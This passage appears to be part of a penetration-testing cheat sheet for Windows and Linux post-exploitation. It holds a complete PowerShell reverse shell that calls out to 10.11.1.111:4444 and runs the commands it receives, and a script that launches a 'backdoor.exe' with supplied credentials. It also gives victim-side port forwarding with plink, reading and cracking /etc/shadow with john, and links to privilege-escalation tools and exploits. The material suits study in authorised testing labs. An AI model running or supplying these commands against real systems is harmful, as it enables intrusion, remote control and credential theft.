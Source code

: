 ```cmd
echo $username = '<username>' > runas.ps1
echo $securePassword = ConvertTo-SecureString "<password>" -AsPlainText -Force >> runas.ps1
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword >> runas.ps1
echo Start-Process C:\Users\User\AppData\Local\Temp\backdoor.exe -Credential $credential >> runas.ps1
```
#### Powershell Reverse Shell
```cmd
Set-ExecutionPolicy Bypass

$client = New-Object System.Net.Sockets.TCPClient('10.11.1.111',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
### Windows privesc/enum tools
- [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py)
- [windows-privesc-check](https://github.com/pentestmonkey/windows-privesc-check)
- [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)

### Windows precompiled exploits
- [WindowsExploits](https://github.com/abatchy17/WindowsExploits)
### Windows Port Forwarding
```sh
# Listen on local port 8080 and forward incoming traffic to REMOT_HOST:PORT via SSH_SERVER
# Scenario: access a host that's being blocked by a firewall via SSH_SERVER;
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER

# Run in victim (5985 WinRM):
plink -l LOCALUSER -pw LOCALPASSWORD LOCALIP -R 5985:127.0.0.1:5985 -P 221
```
# Loot :
## Linux

### Passwords and hashes
```bash
cat /etc/passwd
cat /etc/shadow

unshadow passwd shadow > unshadowed.txt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
### Dualhomed
```bash
ifconfig
ifconfig -a
arp -a
```
### Tcpdump
```bash
tcpdump -i any -s0 -w capture.pcap
tcpdump -i eth0 -w capture -n -U -s 0 src not $IP and dst not $IP
tcpdump -vv -i eth0 src not $IP and dst not $IP
```